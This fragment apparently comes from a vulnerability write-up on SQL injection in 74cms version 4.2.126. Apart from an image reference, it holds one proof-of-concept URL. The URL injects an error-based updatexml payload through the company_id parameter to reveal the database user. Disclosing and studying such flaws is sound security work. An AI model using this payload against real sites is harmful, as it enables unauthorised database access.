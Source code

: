 ![](./resource/74cmsv4.2.126-前台四处sql注入/media/rId46.png)

    http://74cms.test/index.php?m=&c=AjaxPersonal&a=company_focus&company_id[0]=match&company_id[1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) -- a
